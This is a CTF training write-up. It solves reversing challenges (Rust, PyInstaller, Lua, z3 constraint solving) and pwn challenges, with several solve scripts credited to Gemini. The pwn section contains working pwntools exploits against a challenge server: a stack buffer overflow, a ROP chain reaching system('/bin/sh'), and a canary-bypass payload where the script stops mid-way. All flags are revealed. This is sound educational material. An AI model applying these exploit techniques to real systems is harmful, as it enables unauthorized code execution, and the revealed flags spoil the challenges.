# Reverse Engineer

## BabyRust0
Open with IDA Pro. We check the `main::main()` function.

```c
void __fastcall __noreturn main::main(
        int a1,
        int a2,
        int a3,
        int a4,
        int a5,
        int a6,
        int a7,
        int a8,
        int a9,
        int a10,
        int a11,
        int a12,
        int a13,
        int a14,
        int a15,
        int a16,
        int a17,
        int a18,
        int a19,
        int a20,
        char a21,
        int a22,
        int a23,
        int a24,
        int a25,
        int a26,
        int a27,
        int a28,
        int a29,
        int a30,
        int a31,
        int a32,
        int a33,
        int a34,
        int a35,
        int a36,
        struct _Unwind_Exception *a37,
        int a38)
{
  __int64 v38; // rax
  __int64 v39; // rax
  __int64 v40; // rdx
  __int64 v41; // rax
  __int64 v42; // rdx
  _BYTE *v43; // rax
  unsigned __int64 v44; // rdx
  _BYTE v45[48]; // [rsp+48h] [rbp-C0h] BYREF
  _BYTE v46[24]; // [rsp+78h] [rbp-90h] BYREF
  __int64 v47; // [rsp+90h] [rbp-78h]
  _BYTE v48[48]; // [rsp+98h] [rbp-70h] BYREF
  _BYTE v49[64]; // [rsp+C8h] [rbp-40h] BYREF

  while ( 1 )
  {
    core::fmt::rt::<impl core::fmt::Arguments>::new_const(v45, &off_5555555AEB70);
    std::io::stdio::_print();
    alloc::string::String::new(v46);
    std::io::stdio::stdin();
    v47 = v38;
    std::io::stdio::Stdin::read_line();
    core::result::Result<T,E>::expect(v39, v40, aFailedToReadLi, 19LL, &off_5555555AEB80);
    v41 = <alloc::string::String as core::ops::deref::Deref>::deref(v46);
    v43 = (_BYTE *)core::str::<impl str>::trim(v41, v42);
    if ( main::check(v43, v44) )
      break;
    core::fmt::rt::<impl core::fmt::Arguments>::new_const(v49, &off_5555555AEB98);
    std::io::stdio::_print();
    core::ptr::drop_in_place<alloc::string::String>(v46);
  }
  core::fmt::rt::<impl core::fmt::Arguments>::new_const(v48, &off_5555555AEBA8);
  std::io::stdio::_print();
  std::process::exit();
}
```

Notice the `main::check()` function. It pass `v43, v44` as argument. That is the function to check the password correct or not.

```c
bool __fastcall main::check(_BYTE *a1, unsigned __int64 a2)
{
  if ( core::str::<impl str>::len() == 22 )
  {
    if ( !a2 )
      core::panicking::panic_bounds_check();
    if ( *a1 == 66 )
    {
      if ( a2 <= 1 )
        core::panicking::panic_bounds_check();
      if ( a1[1] == 75 )
      {
        if ( a2 <= 2 )
          core::panicking::panic_bounds_check();
        if ( a1[2] == 83 )
        {
          if ( a2 <= 3 )
            core::panicking::panic_bounds_check();
          if ( a1[3] == 69 )
          {
            if ( a2 <= 4 )
              core::panicking::panic_bounds_check();
            if ( a1[4] == 67 )
            {
              if ( a2 <= 5 )
                core::panicking::panic_bounds_check();
              if ( a1[5] == 123 )
              {
                if ( a2 <= 6 )
                  core::panicking::panic_bounds_check();
                if ( a1[6] == 119 )
                {
                  if ( a2 <= 7 )
                    core::panicking::panic_bounds_check();
                  if ( a1[7] == 51 )
                  {
                    if ( a2 <= 8 )
                      core::panicking::panic_bounds_check();
                    if ( a1[8] == 108 )
                    {
                      if ( a2 <= 9 )
                        core::panicking::panic_bounds_check();
                      if ( a1[9] == 67 )
                      {
                        if ( a2 <= 0xA )
                          core::panicking::panic_bounds_check();
                        if ( a1[10] == 48 )
                        {
                          if ( a2 <= 0xB )
                            core::panicking::panic_bounds_check();
                          if ( a1[11] == 109 )
                          {
                            if ( a2 <= 0xC )
                              core::panicking::panic_bounds_check();
                            if ( a1[12] == 51 )
                            {
                              if ( a2 <= 0xD )
                                core::panicking::panic_bounds_check();
                              if ( a1[13] == 95 )
                              {
                                if ( a2 <= 0xE )
                                  core::panicking::panic_bounds_check();
                                if ( a1[14] == 116 )
                                {
                                  if ( a2 <= 0xF )
                                    core::panicking::panic_bounds_check();
                                  if ( a1[15] == 79 )
                                  {
                                    if ( a2 <= 0x10 )
                                      core::panicking::panic_bounds_check();
                                    if ( a1[16] == 95 )
                                    {
                                      if ( a2 <= 0x11 )
                                        core::panicking::panic_bounds_check();
                                      if ( a1[17] == 82 )
                                      {
                                        if ( a2 <= 0x12 )
                                          core::panicking::panic_bounds_check();
                                        if ( a1[18] == 101 )
                                        {
                                          if ( a2 <= 0x13 )
                                            core::panicking::panic_bounds_check();
                                          if ( a1[19] == 118 )
                                          {
                                            if ( a2 <= 0x14 )
                                              core::panicking::panic_bounds_check();
                                            if ( a1[20] == 118 )
                                            {
                                              if ( a2 <= 0x15 )
                                                core::panicking::panic_bounds_check();
                                              return a1[21] == 125;
                                            }
                                            else
                                            {
                                              return 0;
                                            }
                                          }
                                          else
                                          {
                                            return 0;
                                          }
                                        }
                                        else
                                        {
                                          return 0;
                                        }
                                      }
                                      else
                                      {
                                        return 0;
                                      }
                                    }
                                    else
                                    {
                                      return 0;
                                    }
                                  }
                                  else
                                  {
                                    return 0;
                                  }
                                }
                                else
                                {
                                  return 0;
                                }
                              }
                              else
                              {
                                return 0;
                              }
                            }
                            else
                            {
                              return 0;
                            }
                          }
                          else
                          {
                            return 0;
                          }
                        }
                        else
                        {
                          return 0;
                        }
                      }
                      else
                      {
                        return 0;
                      }
                    }
                    else
                    {
                      return 0;
                    }
                  }
                  else
                  {
                    return 0;
                  }
                }
                else
                {
                  return 0;
                }
              }
              else
              {
                return 0;
              }
            }
            else
            {
              return 0;
            }
          }
          else
          {
            return 0;
          }
        }
        else
        {
          return 0;
        }
      }
      else
      {
        return 0;
      }
    }
    else
    {
      return 0;
    }
  }
  else
  {
    return 0;
  }
}
```

Pretty straight forward. Each character compares with an ASCII value. We can convert it back using a simple python script.

```py
flag_chr = [
    66,
    75,
    83,
    69,
    67,
    123,
    119,
    51,
    108,
    67,
    48,
    109,
    51,
    95,
    116,
    79,
    95,
    82,
    101,
    118,
    118,
    125,
]

flag = ""

for i in flag_chr:
    flag = flag + chr(i)

print(flag)
```

Flag: `BKSEC{w3lC0m3_tO_Revv}`

## pyxe
This .exe file is compiled by `pyinstall`, a python library. I tried to decompile it using IDA Pro but it became too hard to understand.  

So I do a little research online.  

Found a tutorial: `https://github.com/BarakAharoni/pycDcode`.  

First I extracted `.pyc` in this `.exe` using a script I found in Github: `https://github.com/extremecoders-re/pyinstxtractor/blob/master/pyinstxtractor.py`

Then I use `uncompyle6` to decompile the .pyc file into the original .py file. Now it became an easy crackme problem.  

```py
# uncompyle6 version 3.9.3
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.13.7 (main, Aug 20 2025, 22:17:40) [GCC 14.3.0]
# Embedded file name: chall.py


def xor_encrypt(plaintext, key):
    plaintext_bytes = plaintext.encode()
    key_bytes = key.encode()
    key_repeated = (
        key_bytes * (len(plaintext_bytes) // len(key_bytes))
        + key_bytes[: len(plaintext_bytes) % len(key_bytes)]
    )
    encrypted_bytes = bytes([a ^ b for a, b in zip(plaintext_bytes, key_repeated)])
    return encrypted_bytes.hex()


def main():
    encrypted_hex = "73796071764d47410a1c001e074d53680a0903066c0507690501665e594e"
    key = "123456789"
    input_password = input("Input password > ")
    encrypted_input = xor_encrypt(input_password, key)
    if encrypted_input == encrypted_hex:
        print("Correct password! Access successful!")
    else:
        print("Wrong password! Access Denied!")


if __name__ == "__main__":
    main()

# okay decompiling chall.pyc
```

Pretty straight forward, a simple xor decryption with key provided. I wrote a little script to decrypt the flag.

```py
def xor_decrypt(target, key) -> str:
    target_bytes = bytes.fromhex(target)
    target_text = target_bytes.decode("utf-8")
    key_bytes = key.encode()
    key_repeated = (
        key_bytes * (len(target_bytes) // len(key_bytes))
        + key_bytes[: len(target_bytes) % len(key_bytes)]
    )
    decrypted_bytes = bytes([a ^ b for a, b in zip(target_bytes, key_repeated)])

    return decrypted_bytes.decode("utf-8")


TARGET = "73796071764d47410a1c001e074d53680a0903066c0507690501665e594e"
KEY = "123456789"

print(xor_decrypt(TARGET, KEY))
```

Flag: `BKSEC{py3-2-3xe_2024_12_29_ok}`  

## babylua

Decompile lua precompiled code using `https://lua-bytecode.github.io/`. Then I use Gemini Pro to reverse `flag.lua`.

```py
# 1. Mảng dữ liệu mã hóa (lấy từ bytecode flag.lua)
target = [
    22, 101, 133, 137, 79, 75, 166, 157, 189, 57, 
    172, 155, 144, 91, 137, 222, 52, 144, 211, 101, 
    114, 116, 121, 76, 154, 168, 83, 94
]

# 2. Key lấy từ file main.lua
KEY_STR = "ThisIsAFlag"
key_bytes = [ord(c) for c in KEY_STR]
key_len = len(key_bytes)

def solve():
    flag_out = []
    
    # --- Bước 1: Giải mã ký tự đầu tiên ---
    # Công thức: Target[0] = Flag[0] ^ Key[0]
    # Suy ra:    Flag[0] = Target[0] ^ Key[0]
    
    first_char = target[0] ^ key_bytes[0]
    flag_out.append(first_char)
    
    # --- Bước 2: Giải mã các ký tự tiếp theo ---
    # Công thức xuôi: Target[i] = (Flag[i] ^ Key[i]) + Flag[i-1]
    # Công thức ngược:
    #   1. Trừ đi ký tự flag trước đó: temp = Target[i] - Flag[i-1]
    #   2. Xử lý tràn số (modulo 256): temp = temp % 256
    #   3. XOR với Key: Flag[i] = temp ^ Key[i]
    
    for i in range(1, len(target)):
        # Lấy byte của Key tương ứng (lặp lại nếu key ngắn hơn)
        k = key_bytes[i % key_len]
        
        # Lấy ký tự Flag đã giải mã ở bước trước
        prev_flag_char = flag_out[i-1]
        
        # Tính toán ngược
        val_minus = target[i] - prev_flag_char
        val_xor = val_minus % 256  # Quan trọng: xử lý số âm
        current_flag_char = val_xor ^ k
        
        flag_out.append(current_flag_char)
        
    # Chuyển mảng số thành chuỗi
    return "".join(chr(c) for c in flag_out)

if __name__ == "__main__":
    try:
        flag = solve()
        print(f"[*] Key: {KEY_STR}")
        print(f"[+] FOUND FLAG: {flag}")
    except Exception as e:
        print(f"Lỗi: {e}")
```

Flag: `BKSEC{ju$t_h@rd3r_2_re@d_:P}`

Refers to this gemini chat: `https://gemini.google.com/share/aa871c799aee`

## ChildRust

Use IDA Pro, we need to decrypt the `check_flag()` function. Cuz I have no idea so I let Gemini do the hard work for me.

Take a look at `check_flag()`. We can use `z3-solver` to decrypt and get the flag.

```python
from z3 import *


def solve():
    s = Solver()

    # 1. Khởi tạo biến: Flag có độ dài 25 bytes (dựa trên check len != 25)
    # flag[i] đại diện cho a1[i]
    flag = [BitVec(f"flag_{i}", 8) for i in range(25)]

    # Hàm trợ giúp: Mở rộng 8-bit lên 32-bit để tính toán không bị tràn sai logic
    def E(x):
        return ZeroExt(24, x)

    # 2. Ràng buộc cơ bản: Flag phải là ký tự in được (ASCII printable)
    # Điều này giúp giảm không gian tìm kiếm và tránh rác
    for i in range(25):
        s.add(flag[i] >= 32)
        s.add(flag[i] <= 126)

    # =================================================================
    # 3. Dịch logic từ code Decompile sang Z3
    # =================================================================

    # Mapping biến để dễ đối chiếu code: a1[i] -> flag[i]
    # Lưu ý: Code gốc dùng biến trung gian v..., ta sẽ viết biểu thức trực tiếp
    # hoặc gán biến python tương ứng (đã mở rộng lên 32-bit).

    # Block 1
    # v67 = a1[8];
    # v66 = *a1 * v67; -> flag[0] * flag[8]
    # v2 = a1[7];
    # if ( ((v2 + v66) & a1[1]) != 0x4B ) return 0;
    v66 = E(flag[0]) * E(flag[8])
    v2 = E(flag[7])
    s.add(((v2 + v66) & E(flag[1])) == 0x4B)

    # Block 2
    # v65 = a1[16]; v3 = a1[6];
    # v64 = a1[14]; v63 = a1[2];
    # v62 = a1[10] * v63;
    # if ( ((v64 - v62) ^ (v65 - v3)) != 0x182B ) return 0;
    v65, v3 = E(flag[16]), E(flag[6])
    v64, v63 = E(flag[14]), E(flag[2])
    v62 = E(flag[10]) * v63
    s.add(((v64 - v62) ^ (v65 - v3)) == 0x182B)

    # Block 3
    # v61 = a1[11];
    # v60 = a1[7] * v61;
    # v4 = a1[13];
    # if ( ((v60 - v4) ^ a1[4]) != 0x12B3 ) return 0;
    v61 = E(flag[11])
    v60 = E(flag[7]) * v61
    v4 = E(flag[13])
    s.add(((v60 - v4) ^ E(flag[4])) == 0x12B3)

    # Block 4
    # v59 = *a1;
    # v58 = a1[17] * v59;
    # v5 = a1[17];
    # if ( v5 + v58 != 3417 ) return 0;
    v59 = E(flag[0])
    v58 = E(flag[17]) * v59
    v5 = E(flag[17])
    s.add(v5 + v58 == 3417)

    # Block 5
    # v57 = a1[5]; v6 = a1[1];
    # if ( ((v57 - v6) ^ (unsigned __int8)(a1[14] & a1[6])) != 0x40 ) return 0;
    v57, v6 = E(flag[5]), E(flag[1])
    # a1[14] & a1[6] trả về byte, cast không ảnh hưởng giá trị nhỏ này
    s.add(((v57 - v6) ^ (E(flag[14]) & E(flag[6]))) == 0x40)

    # Block 6
    # v56 = a1[9]; v55 = a1[9]; v7 = *a1;
    # check 1: ((v55 - v7) ^ (a1[11] * v56) & a1[7]) != 0x1E
    # check 2: (unsigned __int8)(a1[17] & (*a1 ^ a1[6])) != 0x31
    v56 = E(flag[9])
    v55, v7 = E(flag[9]), E(flag[0])
    # Lưu ý độ ưu tiên: * cao hơn &
    part1 = (v55 - v7) ^ ((E(flag[11]) * v56) & E(flag[7]))
    s.add(part1 == 0x1E)

    part2 = E(flag[17]) & (E(flag[0]) ^ E(flag[6]))
    s.add(part2 == 0x31)  # 0x31 hex là 49 decimal

    # Block 7
    # v54 = a1[17]; v8 = a1[6];
    # if ( (a1[9] ^ (v8 + v54)) != 0xF6 ) return 0;
    v54, v8 = E(flag[17]), E(flag[6])
    s.add((E(flag[9]) ^ (v8 + v54)) == 0xF6)

    # Block 8
    # v53 = a1[14];
    # v52 = (a1[4] * v53) ^ a1[6];
    # v51 = a1[4];
    # v50 = a1[7] * v51;
    # if ( v52 - v50 != 4680 ) return 0;
    v53 = E(flag[14])
    v52 = (E(flag[4]) * v53) ^ E(flag[6])
    v51 = E(flag[4])
    v50 = E(flag[7]) * v51
    s.add(v52 - v50 == 4680)

    # Block 9 (Cẩn thận số âm)
    # v49 = a1[16]; v9 = a1[6];
    # v48 = v49 - v9;
    # v47 = a1[7];
    # v10 = a1[17] & (a1[12] * v47);
    # if ( v48 - v10 != -36 ) return 0;
    v49, v9 = E(flag[16]), E(flag[6])
    v48 = v49 - v9
    v47 = E(flag[7])
    v10 = E(flag[17]) & (E(flag[12]) * v47)
    # Trong Z3 bitvec 32 bit, -36 sẽ là 0xFFFFFFDC. Z3 tự xử lý wrap-around 2's complement
    s.add(v48 - v10 == -36)

    # Block 10 (Số âm tiếp)
    # v46 = a1[7]; v45 = a1[12];
    # v44 = a1[15] * v45;
    # v43 = v46 - v44;
    # v11 = a1[6];
    # if ( v43 - v11 != -10706 ) return 0;
    v46, v45 = E(flag[7]), E(flag[12])
    v44 = E(flag[15]) * v45
    v43 = v46 - v44
    v11 = E(flag[6])
    s.add(v43 - v11 == -10706)

    # Block 11
    # v42 = a1[9]; v41 = a1[7];
    # v40 = a1[3] * v41;
    # v39 = v40 + v42;
    # v12 = a1[2];
    # if ( v12 + v39 != 3544 ) return 0;
    v42, v41 = E(flag[9]), E(flag[7])
    v40 = E(flag[3]) * v41
    v39 = v40 + v42
    v12 = E(flag[2])
    s.add(v12 + v39 == 3544)

    # Block 12
    # v38 = a1[14]; v13 = a1[10];
    # v37 = v13 + v38;
    # v14 = a1[13];
    # if ( (a1[13] ^ (v37 - v14)) != 0x3A ) return 0;
    v38, v13 = E(flag[14]), E(flag[10])
    v37 = v13 + v38
    v14 = E(flag[13])
    s.add((E(flag[13]) ^ (v37 - v14)) == 0x3A)

    # Block 13
    # v36 = a1[14] ^ a1[7] ^ a1[5];
    # v15 = a1[8];
    # if ( v15 + v36 != 159 ) return 0;
    v36 = E(flag[14]) ^ E(flag[7]) ^ E(flag[5])
    v15 = E(flag[8])
    s.add(v15 + v36 == 159)

    # Block 14
    # v35 = (unsigned __int8)(a1[4] & a1[9]);
    # v16 = a1[11];
    # v34 = v35 - v16;
    # v17 = a1[2];
    # if ( v17 + v34 != 46 ) return 0;
    v35 = E(flag[4]) & E(flag[9])
    v16 = E(flag[11])
    v34 = v35 - v16
    v17 = E(flag[2])
    s.add(v17 + v34 == 46)

    # Block 15
    # v33 = a1[6]; v18 = a1[3];
    # v32 = v33 - v18;
    # v19 = a1[6];
    # if ( v19 + v32 != 161 ) return 0;
    v33, v18 = E(flag[6]), E(flag[3])
    v32 = v33 - v18
    v19 = E(flag[6])
    s.add(v19 + v32 == 161)

    # Block 16
    # v31 = a1[8]; v30 = a1[2];
    # v29 = a1[9] * v30;
    # v28 = a1[6]; v20 = a1[9];
    # if ( ((v20 + v28) ^ (v29 + v31)) != 0x1A9E ) return 0;
    v31, v30 = E(flag[8]), E(flag[2])
    v29 = E(flag[9]) * v30
    v28, v20 = E(flag[6]), E(flag[9])
    s.add(((v20 + v28) ^ (v29 + v31)) == 0x1A9E)

    # Block 17
    # v27 = a1[15]; v26 = a1[16] * v27;
    # v21 = a1[16]; v25 = v21 + v26;
    # v22 = a1[4];
    # if ( v25 - v22 != 12815 ) return 0;
    v27 = E(flag[15])
    v26 = E(flag[16]) * v27
    v21 = E(flag[16])
    v25 = v21 + v26
    v22 = E(flag[4])
    s.add(v25 - v22 == 12815)

    # Block 18
    # v24 = a1[6];
    # check 1: ((a1[16] * v24) & *a1 ^ (unsigned __int8)(a1[1] & a1[3])) != 0x43
    # check 2: (a1[11] ^ a1[2] ^ a1[8]) != 0x5B
    v24 = E(flag[6])
    part1 = ((E(flag[16]) * v24) & E(flag[0])) ^ (E(flag[1]) & E(flag[3]))
    s.add(part1 == 0x43)

    part2 = E(flag[11]) ^ E(flag[2]) ^ E(flag[8])
    s.add(part2 == 0x5B)

    # Block 19: Hardcoded checks cuối chuỗi
    # a1[18] != 115, a1[19] != 53 ...
    s.add(flag[18] == 115)  # 's'
    s.add(flag[19] == 53)  # '5'
    s.add(flag[20] == 49)  # '1'
    s.add(flag[21] == 48)  # '0'
    s.add(flag[22] == 110)  # 'n'
    s.add(flag[23] == 83)  # 'S'
    s.add(flag[24] == 125)  # '}'

    # =================================================================
    # 4. Kiểm tra và in kết quả
    # =================================================================
    print("[*] Checking constraints...")
    if s.check() == sat:
        m = s.model()
        result = []
        for i in range(25):
            val = m[flag[i]].as_long()
            result.append(chr(val))

        final_flag = "".join(result)
        print(f"[+] Found FLAG: {final_flag}")
    else:
        print("[-] Unsatisfiable. Check constraints.")


if __name__ == "__main__":
    solve()
```

Flag: `BKSEC{s1mPLe_expr3s510nS}`

Reference: `https://gemini.google.com/share/337ef325b122`

# Pwn

## Introduction to pwntools

Challenge:  
  

Exploit script:  

```py
from pwn import *

p = remote("103.77.175.40", 6996)

payload = bytes([0x13, 0x14, 0x15, 0x16])
print(payload)

p.sendline(payload)

p.interactive()
```

Flag: `BKSEC{pwntools_1z_s0_good_r1ght}`

## bof_1

Basic file information:
```bash
bof_1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7c86e6d1e3c0f306e4e8fde2fb93237d74e4ee34, for GNU/Linux 3.2.0, not stripped
```
```bash
pwn checksec bof_1
[*] '/mnt/e/ctf-chall/bksec_training/pwn/bof_1/bof_1'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

For pwn challenge, I use `Cutter` to disassemble the binary.  



We can calculate the offset from `s` to `var_ch`. My mission is change `var_ch` value to `0x13141516`. I wrote a simple python script to exploit.  

```py
from pwn import *

p = remote("103.77.175.40", 6001)

offset = 0x58 - 0xc

payload = b"A" * offset + p32(0x13141516)

p.sendline(payload)
p.interactive()
```

Flag: `BKSEC{\xBuffer\xOv3rfl0w\x1s\xC00l}`

## bof_2



`main()` function:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[8]; // [rsp+0h] [rbp-40h] BYREF
  __int64 v5; // [rsp+8h] [rbp-38h]
  __int64 v6; // [rsp+10h] [rbp-30h]
  __int64 v7; // [rsp+18h] [rbp-28h]
  __int64 v8; // [rsp+20h] [rbp-20h]
  __int64 v9; // [rsp+28h] [rbp-18h]
  __int16 v10; // [rsp+30h] [rbp-10h]

  setbuf(stdout, 0LL);
  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0;
  printf("Enter your favorite number: ");
  fgets(s, 256, stdin);
  return 0;
}
```

There is a buffer overflow vulnerabily. I found offset to `rsp` using `Cutter`, `pwndbg`, `IDA Pro`, anything is fine.

`offset = 72`

PIE and Canary are off. I found `win()` function.



We care about `win()` address: `0x00000000004011F3`.

However, it's a little tricky. This is `win()`.

```c
int __fastcall win(const char *a1, const char *a2)
{
  if ( a1 != (const char *)0xDEADBEEFDEADBEEFLL || a2 != (const char *)0xDEADBEEFDEADBEEFLL )
  {
    puts("!!! Access denied");
    printf("Entered param1: %s\n", a1);
    printf("Entered param2: %s\n", a2);
    exit(1);
  }
  return system("/bin/sh");
}
```

Use `ROPgadget` to get gadget address, here we need to know x86 calling convention.  

Write a python script to exploit this challenge.  

```py
from pwn import *

p = process("./bof_2")
p = remote("103.77.175.40", 6011)

win_addr = 0x004011F3
offset = 72
ret_gadget = 0x000000000040101A
pop_rdi_ret = 0x00000000004011E5
pop_rsi_ret = 0x00000000004011EE

target = 0xDEADBEEFDEADBEEF

payload = b"A" * offset
payload += p64(pop_rdi_ret)
payload += p64(target)
payload += p64(pop_rsi_ret)
payload += p64(target)
payload += p64(ret_gadget)
payload += p64(win_addr)

p.sendline(payload)

p.interactive()
```

Flag: `BKSEC{2-->upgr4d3\xBuffer\xOv3rfl0w\x1s\xn0t\xC00l\xhixxxxxxxxxxx}`  

Refers to this Gemini chat: `https://gemini.google.com/share/1c614a9c1c42`

## bof_3
```bash
$ file bof_3
bof_3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1321e18dfd3016f10564ab4b7707bf538d5f597a, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec bof_3
[*] '/mnt/e/ctf-chall/bksec_training/pwn/bof_3/bof_3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Idk why but Cutter is better than Ghidra or IDA when solving pwn problem. Better use it.

Disassembly by Cutter:



This problem have a bof with canary vuln. Luckily we have been given the canary. So we need to bypass it.

```py
from pwn import *

# p = process("./bof_3")
p = remote("103.77.175.40", 6021)

p.recvuntil(b"My favorite canary is: ")
canary = int(p.recvline()[:-1].decode("utf-8"), 0)
print(hex(canary))

to_canary_offset = 0x68 - 0x10
canary_to_rsp_offset = 0x10 - 8
win_addr = 0x0000000000401213
ret_gadget = 0x000000000040101A
pop_rdi_ret = 0x0000000000401205
pop_rsi_ret = 0x000000000040120E


# Because we need 8 bytes padding to go to rsp.
# So i added b'A'*8. I stuck here a while.
# 1 byte = 8 bit => 8 bytes = 64 bits.
payload = b"A" * to_canary_offset + p64(canary) + b"A" * canary_to_rsp_offset
